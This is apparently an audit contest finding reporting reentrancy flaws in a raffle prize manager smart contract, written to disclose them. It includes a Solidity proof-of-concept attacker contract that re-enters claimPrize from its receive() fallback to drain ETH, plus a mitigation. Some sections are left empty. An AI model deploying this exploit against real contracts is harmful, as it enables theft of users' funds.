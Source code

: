 Sour Denim Alpaca

High

# Multiple Reentrancy Vulnerabilities at WinnablesPrizeManager contract

### Summary

Functions like _sendETHPrize, _sendTokenPrize, and _sendNFTPrize make external calls to transfer ETH, ERC20 tokens, or NFTs to a winner without implementing any reentrancy guards. If an attacker gains control over the winner address, they could potentially re-enter the contract and exploit the state before it is updated.
Line: https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesPrizeManager.sol#L314


### Root Cause

 reentrancy guards missing.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

This could allow an attacker to drain the contract's funds or manipulate the contract state in an unintended manner.

### PoC

 Malicious Contract
This contract will attempt to exploit the sendETHPrize function by reentering the claimPrize function to drain all ETH from the WinnablesPrizeManager contract.

```solidity
pragma solidity 0.8.24;

import "./WinnablesPrizeManager.sol";

contract MaliciousContract {
    WinnablesPrizeManager public target;
    uint256 public raffleId;

    constructor(WinnablesPrizeManager _target, uint256 _raffleId) {
        target = _target;
        raffleId = _raffleId;
    }

    // Fallback function will be triggered during the ETH transfer and will reenter the claimPrize function
    receive() external payable {
        if (address(target).balance > 0) {
            target.claimPrize(raffleId); // Reentering the target contract
        }
    }

    // Attack function to start the reentrancy attack
    function attack() external {
        target.claimPrize(raffleId);
    }
}
```


### Mitigation

Use a nonReentrant modifier or implement reentrancy protection using state variables to ensure the function cannot be re-entered.